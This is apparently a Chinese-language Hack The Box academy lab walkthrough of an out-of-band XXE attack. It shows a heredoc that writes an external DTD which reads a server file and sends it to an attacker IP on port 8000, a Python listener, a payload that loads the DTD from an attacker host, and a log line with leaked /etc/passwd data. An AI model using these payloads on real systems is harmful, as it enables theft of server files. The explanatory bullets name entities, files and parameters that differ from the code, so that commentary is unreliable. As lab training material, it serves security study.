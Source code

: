 ### ⭐ 操作流程範例：

#### ✅ 1️⃣ 建立外部 DTD (`xxe.dtd`)

```xml
─[us-academy-1]─[10.10.14.134]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ cat > XXE.dtd << EOF
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.134:8000/?content=%file;'>">
EOF

```

**說明：**

* `%file;`：從伺服器讀取 `/etc/passwd` 檔案內容
* `%exfil;`：定義 `send` 實體，讓伺服器用 HTTP 發送資料

***

#### ✅ 2️⃣ 啟動本地 HTTP 伺服器：

```bash
python3 -m http.server 8000
```

* 等待伺服器連回來

***

#### ✅ 3️⃣ 發送 XXE Payload 給目標：

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE email [ 
	<!ENTITY % remote SYSTEM "http://PWNIP:8000/XXE.dtd">
	  %remote;
	  %oob;
	]>
	<root>
		&content;
	</root>
```

* 伺服器解析 `%remote;` 下載你的 DTD
* 執行 `%file;` 讀取內容
* 自動透過 HTTP 請求發送資料到你的主機

***

#### ✅ 4️⃣ 觀察結果

* 在本地 server 日誌中你會看到：

```
GET /?data=root:x:0:0:root:/root:/bin/bash HTTP/1.1
```
